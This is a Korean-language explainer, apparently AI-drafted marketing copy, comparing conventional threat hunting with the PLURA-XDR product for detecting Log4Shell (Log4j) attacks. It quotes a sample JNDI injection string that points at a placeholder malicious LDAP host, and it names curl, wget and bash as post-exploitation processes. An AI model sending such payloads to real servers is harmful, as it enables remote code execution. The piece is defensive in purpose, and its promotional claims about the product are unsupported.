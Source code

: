 ## **📌 사례 1: Log4j(Log4Shell) 취약점 공격 탐지**

### **1️⃣ 기존 위협 헌팅(SIEM + EDR + NDR + TI)이 탐지하지 못하는 이유**
| **비교 항목** | **기존 위협 헌팅 (SIEM + EDR + NDR + TI)** | **PLURA 웹 요청 본문 분석 + EDR** |
|----------|-------------------------------|-------------------------------|
| **탐지 방식** | IOC(위협 인텔리전스) 기반 탐지 → 기존 패턴 매칭에 의존하여 새로운 공격 탐지 어려움 | 행위 기반 탐지 → 웹 요청 본문과 실행 행위까지 실시간 분석하여 신규 공격 탐지 가능 |
| **웹 애플리케이션 공격 탐지** | 웹 요청 헤더, URL 분석만 가능 → 요청 본문 내부의 악성 패턴 분석 불가능 | **웹 요청 본문을 실시간 분석하여 JNDI 호출 패턴 탐지 가능** |
| **네트워크 트래픽 분석** | NDR이 SSL 복호화 후 패킷 분석 가능하지만 요청 본문 분석 불가 | **요청 본문을 분석하여 JNDI 패턴 포함 여부를 확인하고 탐지 가능** |
| **엔드포인트 보안** | EDR이 실행된 프로세스를 감지 가능하지만, 웹 애플리케이션에서 발생한 공격과의 연계 분석 어려움 | **EDR이 원격 코드 실행(RCE) 발생 시, 악성 프로세스 실행(Fork, Execve) 탐지 가능** |

### **2️⃣ 기존 위협 헌팅이 탐지하지 못하는 이유 상세 설명**
1. **SIEM + TI(Threat Intelligence) 한계**  
   - 기존 SIEM 및 TI는 **정적 IOC(Indicator of Compromise) 기반 탐지**에 의존합니다.  
   - 즉, **이미 알려진 악성 IP, 도메인, 파일 해시 값 등을 기반으로 탐지**하기 때문에, Log4j처럼 **새롭게 등장한 취약점을 이용한 공격을 탐지하기 어려움**.  
   - 공격자들이 **새로운 JNDI 호출 변형(payload 변형)을 이용하면 IOC 매칭을 우회**할 수 있음.  

2. **NDR(네트워크 기반 탐지)의 한계**  
   - NDR은 **SSL 복호화를 통해 네트워크 트래픽을 분석할 수 있지만, 요청 본문(payload)까지 정밀하게 분석하지 못함**.  
   - 즉, `jndi:ldap://malicious.com/exploit` 같은 **악성 페이로드가 포함된 웹 요청의 본문을 분석할 수 없음**.  
   - 네트워크 단에서 악성 트래픽이 발생할 수 있지만, **로그의 맥락(context)을 고려한 분석이 어려움**.  

3. **EDR(엔드포인트 보안)의 한계**  
   - EDR은 웹 서버 내에서 발생하는 악성 프로세스 실행(`curl`, `wget`, `bash` 등)을 감지할 수 있음.  
   - 하지만, **웹 애플리케이션에서 공격이 시작된 원인을 직접 분석하지 못하기 때문에, 웹 요청과 실행 프로세스 간의 연관성을 파악하기 어려움**.  
   - 즉, **웹 요청 → 악성 코드 실행**까지의 공격 흐름을 제대로 분석하지 못하면, 단순한 이상 프로세스로 오탐할 가능성이 있음.  

---

### **3️⃣ PLURA 웹 요청 본문 분석 + EDR을 통한 탐지 방법**
✅ **1) 웹 요청 본문 분석을 통해 악성 패턴 탐지**  
   - PLURA는 **웹 요청 본문을 실시간 분석**하여 `jndi:ldap://malicious.com/exploit`와 같은 패턴을 탐지 가능.  
   - 검색창, 유저 입력값, HTTP 헤더, API 요청 본문에서 **비정상적인 LDAP, RMI 호출 탐지 가능**.  
   - 기존 WAF가 탐지하지 못하는 **다양한 JNDI 호출 변형을 분석하여 우회 공격도 탐지 가능**.  

✅ **2) 실행 행위 기반 탐지 및 차단 (EDR 연계)**  
   - 공격이 성공하여 원격 코드 실행(RCE)이 발생할 경우,  
   - PLURA EDR이 **커널 레벨에서 새로운 프로세스 생성 이벤트(Fork, Execve) 탐지**.  
   - 예를 들어, 공격 성공 후 `curl`, `wget`, `bash` 등의 프로세스가 실행되면 이를 감지하여 즉시 차단 가능.  

✅ **3) 공격 흐름을 상관 분석하여 추가 공격 차단**  
   - 기존 IOC 기반 탐지가 어려운 공격이라도, **LDAP/RMI 요청 이후 특정 프로세스가 실행되는 패턴을 탐지하여 추가 공격을 사전 차단 가능**.  
   - 즉, 공격자가 **JNDI 호출 변형을 사용하여 시그니처 기반 탐지를 우회**하려 해도 **행위 분석을 통해 탐지 가능**.  

---

### **📌 결론: PLURA 웹 요청 본문 분석 + EDR이 Log4j 공격 탐지에서 뛰어난 이유**
✅ **기존 위협 헌팅(SIEM + EDR + NDR + TI)은 IOC 기반 탐지에 의존하여 Log4j처럼 새로운 공격 패턴을 탐지하는 데 한계가 있음**.  
✅ **PLURA-XDR은 웹 요청 본문을 분석하고 행위 기반 탐지를 수행하여 Log4j 공격을 실시간으로 탐지 가능**.  
✅ **WAF를 우회하는 공격, 크리덴셜 스터핑, API Abuse, 랜섬웨어 탐지까지 대응 가능**.  
✅ **EDR 연계를 통해 커널 레벨에서 악성 프로세스 실행, 웹쉘 설치, 파일 변조(FIM) 등을 탐지하여 공격자의 추가 행위를 차단**.  

🔹 **PLURA-XDR은 기존 보안 체계가 탐지하지 못하는 Zero-Day 공격까지 대응할 수 있는 차세대 보안 플랫폼입니다.** 🚀  

---

### **📌 개선된 핵심 포인트**
1. 기존 위협 헌팅이 **IOC 기반 탐지에 의존하여 새로운 공격 패턴을 탐지하지 못하는 이유**를 구체적으로 설명.  
2. **PLURA가 요청 본문을 분석하여 JNDI 패턴을 탐지하고, 실행된 악성 프로세스를 감지하여 차단하는 방식**을 명확하게 설명.  
3. 기존 보안 시스템이 탐지하지 못하는 이유를 **SIEM, NDR, EDR 별로 구체적으로 정리**하여 차별점을 강조.  

이제 독자가 **왜 기존 위협 헌팅이 Log4j 공격을 탐지하지 못하고, PLURA 웹 요청 본문 분석 + EDR이 더 강력한 탐지 방법인지**를 쉽게 이해할 수 있을 것입니다.  

**📌 추가 수정이 필요하시면 의견 주세요!** 😊
